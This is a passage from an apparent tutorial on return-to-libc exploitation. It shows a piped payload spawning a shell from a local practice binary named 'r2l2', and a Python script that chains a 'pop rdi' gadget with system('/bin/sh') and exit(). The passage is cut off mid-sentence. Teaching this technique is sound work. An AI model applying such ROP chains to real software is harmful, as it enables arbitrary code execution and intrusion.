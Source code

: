 A fork and an exit. That looks good! Again, the shell closes immediately since stdin closes, but this is easy to get past in the shell:

```
$ (cat pl.bin; cat) | ./r2l2
Input something: The first character was: a
echo $$
12779
<PRESS CTRL-Z>
[1]+  Stopped                 ( cat pl.bin; cat ) | ./r2l2
$ pstree -p $$
bash(11617)─┬─bash(12776)───cat(12780)
            ├─pstree(12800)
            └─r2l2(12777)───sh(12779)
```

We got a shell!

As a final exercise, we'll fix the exit code. As you may have noticed in the gdb output above, the program exits with exit code 2:

```
$ (cat pl.bin; cat) | ./r2l2
Input something: The first character was: a
^C
$ echo $?
2
```

> The `%rdi` register is changed to 0x2 by a function called by `system()`. The `%rdi` register is *volatile* (not preserved acrosss function calls).

We need to find a gadget that we can run before `exit()` that will put zero into `%rdi`. Luckily, we already have a gadget like this, our old pal `pop %rdi; ret`. By putting its address and 8 null bytes before the address of `exit()`, we can accomplish our goal:

```python
# r2l2_exploit.py
import struct

pad = 40 * "a"
ecode = 8 * "\x00"
poprdi  = struct.pack("<Q", 0x401203)
binsh   = struct.pack("<Q", 0x7ffff7f6f519)
csystem = struct.pack("<Q", 0x7ffff7e2ec30)
cexit   = struct.pack("<Q", 0x7ffff7e23e30)

print pad + poprdi + binsh + csystem + poprdi + ecode + cexit
```

> The above exploit is more readable and easier to modify than a long oneliner. The `struct.pack("<Q", ...)` let's us type in addresses without leading zeroes and have them returned as a string packed to a little-endian unsigned long long (8 bytes).

You can run the above exploit like this in gdb (if you for example want to study the stack and register states):
